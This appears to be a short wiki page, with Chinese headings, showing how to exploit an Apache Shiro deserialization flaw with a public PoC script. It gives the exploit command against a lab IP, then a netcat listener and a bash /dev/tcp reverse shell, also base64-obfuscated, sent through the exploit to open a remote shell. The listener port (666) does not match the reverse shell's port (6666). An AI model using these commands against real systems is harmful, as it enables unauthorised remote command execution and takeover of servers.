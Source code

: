 <languages   />

POC
---

<https://github.com/insightglacier/Shiro_exploit>

<translate>

漏洞利用
--------

</translate>

    python3 shiro_exploit.py -t 3 -u http://192.168.2.147:8080 -p "touch a.txt"

<translate> 命令執行成功。 </translate>

Getshell
--------

<translate> 監聽機器執行以下命令： </translate>

    nc -lvp 666

<translate> 受害機器執行以下命令： </translate>

    bash -i >& /dev/tcp/192.168.2.130/6666 0>&1
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}

    python3 shiro_exploit.py -t 3 -u http://192.168.2.147:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}"